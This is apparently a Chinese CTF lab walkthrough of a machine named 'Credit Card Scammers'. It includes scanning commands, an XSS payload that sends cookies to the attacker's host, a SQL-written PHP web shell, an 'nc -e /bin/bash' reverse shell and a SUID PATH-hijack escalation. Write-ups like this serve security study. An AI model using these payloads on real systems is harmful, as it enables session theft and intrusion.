> 此文章以 kali 地址为 10.10.10.5 为示例

# Credit Card Scammers 靶场

## 服务扫描

扫描所执行的命令，执行结果如下

```bash
sudo nmap -sn 10.10.10.0/24

sudo nmap --min-rate 10000 -p- 10.10.10.31   

sudo nmap -sC -sT -sV -p22,80,443,9090 10.10.10.31 

sudo nmap --script=vuln -p22,80,443,9090 10.10.10.31 
```



## gobuster 爆破目录

在漏洞扫描中发现了许多目录，因此进行更详细的目录爆破

```bash
sudo gobuster dir -u http://10.10.10.33 -w /usr/share/wordlists/dirb/common.txt
```



## Web 渗透

审计爆破的目录发现在 admin 下有一个登入界面



默认界面能找到提交表单



尝试 XSS 

```
<script>new Image().src="http://10.10.10.5/?c="+document.cookie;</script>
```



kali 架设连接

```bash
python3 -m http.server 80
```



修改 cookie 登入



注入 sql 反弹 shell

```shell
SELECT "<?php passthru($_GET['cmd']); ?>" INTO DUMPFILE '/var/www/html/shell.php'
```

```
http://10.10.10.33/shell.php?cmd=pwd
```



连接 shell ，因为防火墙墙掉了不常见端口，因此使用 443 端口

```shell
nc -e /bin/bash 10.10.10.5 4444
```

以下是提权一阶段代码

```shell
cat /etc/passwd |grep "/bin/bash"

cd settings

ls

cat config.php
```



```shell
mysql -uorders -pOb2UA15ubBtzpZrvdMYT orders -e 'SELECT * from users;' 
```



john 破解


ssh 登入



二阶段提权

```shell
find / -perm -u=s -type f 2>/dev/null

ls

strings /usr/bin/backup

export PATH=.:$PATH

echo $PATH

cd /tmp 

echo '/bin/bash' > tar

chmod 777 tar

/usr/bin/backup
```



拿下机器